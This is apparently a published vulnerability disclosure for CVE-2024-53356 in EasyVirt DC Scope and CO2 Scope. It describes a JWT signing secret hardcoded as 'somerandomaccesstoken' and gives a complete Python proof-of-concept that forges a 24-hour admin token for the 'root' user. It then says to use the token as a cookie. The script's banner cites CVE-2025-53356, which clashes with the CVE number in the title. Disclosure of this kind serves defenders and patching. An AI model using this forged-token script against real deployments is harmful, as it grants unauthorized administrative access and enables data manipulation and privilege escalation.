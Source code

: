 # [CVE-2024-53356] - EasyVirt - Weak JWT Secret
#### Exploit Author: [Aurelien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions:
- DC Scope <= 8.6.0
- CO2 Scope <= 1.3.0


## Description:
Weak JWT Secret vulnerabilitiy in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote authenticated attackers. The HMAC secret used for generating tokens is hardcoded as "somerandomaccesstoken". A weak HMAC secret poses a risk because attackers can use the predictable secret to create valid JSON Web Tokens (JWTs), allowing them access to important information and actions within the application.

## Steps to reproduce:
1. Execute following script:
```py
import base64
import hmac
import hashlib
import json
import time

secret_key = 'somerandomaccesstoken'
iat = int(time.time())
# 24 hours validity
exp = iat + (24 * 60 * 60)

header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "user": "root",
    "role": "admin",
    "iat": iat,
    "exp": exp
}

def base64_url_encode(data):
    return base64.urlsafe_b64encode(data.encode()).decode().rstrip("=")

encoded_header = base64_url_encode(json.dumps(header))
encoded_payload = base64_url_encode(json.dumps(payload))
jwt_without_signature = f"{encoded_header}.{encoded_payload}"

signature = hmac.new(secret_key.encode(), jwt_without_signature.encode(), hashlib.sha256).digest()
encoded_signature = base64.urlsafe_b64encode(signature).decode().rstrip("=")

jwt_token = f"{jwt_without_signature}.{encoded_signature}"
print('+-------------------------------------------+')
print('| Token generated to exploit CVE-2025-53356 |')
print('|                Validity: 24h              |')
print('+-------------------------------------------+\n')
print('Token:', jwt_token)
```
2. Uses the generated cookie

## IMPACT:
An attacker can gain unauthorized access by forging valid JWTs and impersonating legitimate users. This can lead to the manipulation of sensitive data and privilege escalation.

